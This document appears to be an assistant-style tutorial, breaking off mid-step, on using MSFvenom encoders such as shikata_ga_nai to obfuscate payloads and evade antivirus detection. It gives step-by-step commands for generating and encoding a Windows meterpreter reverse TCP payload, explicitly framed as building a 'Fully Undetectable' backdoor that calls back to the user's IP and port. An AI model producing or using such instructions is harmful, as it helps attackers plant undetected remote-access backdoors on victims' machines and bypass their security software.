 













In MSFvenom, encoders are used to obfuscate payloads in order to evade detection by antivirus software. There are various types of encoders available, and each works by applying different techniques to modify the payload's byte pattern while preserving its functionality. Here are some common encoders you can use:

### Common Encoders in MSFvenom
1. **x86/shikata_ga_nai**: A polymorphic XOR additive feedback encoder. It is one of the most popular encoders because it can effectively obfuscate payloads.
2. **x86/call4_dword_xor**: This encoder uses XOR encryption and performs well in terms of avoiding detection.
3. **x86/fnstenv_mov**: A popular encoder that uses floating-point instructions to obfuscate the payload.
4. **x64/xor**: A simple XOR encoder for 64-bit payloads.
5. **x86/xor_dynamic**: An XOR encoder with a dynamic key.

### Using Encoders with MSFvenom
To use an encoder in MSFvenom, you can specify the `-e` option followed by the encoder name. Here's a step-by-step guide to create an FUD (Fully Undetectable) backdoor for Windows:

#### Step 1: Generate the Payload
First, generate a standard payload. For example, to create a reverse TCP shell payload for Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe -o payload.exe
```

Replace `<your_ip>` and `<your_port>` with your actual IP address and port number.

#### Step 2: Encode the Payload
Next, encode the payload using one of the available encoders. For instance, using the `x86/shikata_ga_nai` encoder:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -e x86/shikata_ga_nai -i 10 -f exe -o encoded_payload.exe
```

In this command:
- `-e x86/shikata_ga_nai` specifies the encoder to use.
- `-i 10` indicates the number of iterations for encoding (more iterations can increase the chances of evading detection).

#### Step 3: Test the Payload
Once you've created the encoded payload, test it to ensure it works as expected. You can do this by setting up a listener in Metasploit:
